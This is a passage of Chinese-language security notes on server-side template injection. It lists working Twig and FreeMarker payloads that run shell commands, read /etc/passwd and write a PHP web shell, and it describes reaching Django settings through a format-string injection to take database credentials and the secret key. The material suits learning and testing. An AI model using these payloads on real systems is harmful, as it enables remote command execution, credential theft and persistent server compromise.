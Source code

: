 - reduce

  `{{[0, 0]|reduce("system", "id")|join(",")}}`

  

```
{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}

{{app.request.files.get(1).openFile.fread(99)}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

{{_self.env.enableDebug()}}{{_self.env.isDebug()}}

{{["id"]|map("system")|join(",")

{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}

{{["id",0]|sort("system")|join(",")}}

{{["id"]|filter("system")|join(",")}}

{{[0,0]|reduce("system","id")|join(",")}}

{{['cat /etc/passwd']|filter('system')}}
```

3.freeMarker

java模板

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

查找文档，查看框架源码，等方式寻找这个 payload 的思路来源

### 利用框架本身的特性进行攻击

1.Django

```python
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))
```

注入点很明显就是 email,但是我们能够做的事情已经被限制得很死了，很难再执行命令了。

```
去挖掘Django自带的应用中的一些路径，最终读取到Django的配置项
```

我们发现，经过翻找，我发现Django自带的应用“admin”（也就是Django自带的后台）的models.py中导入了当前网站的配置文件。

思路就很明确了：我们只需要通过某种方式，找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息。
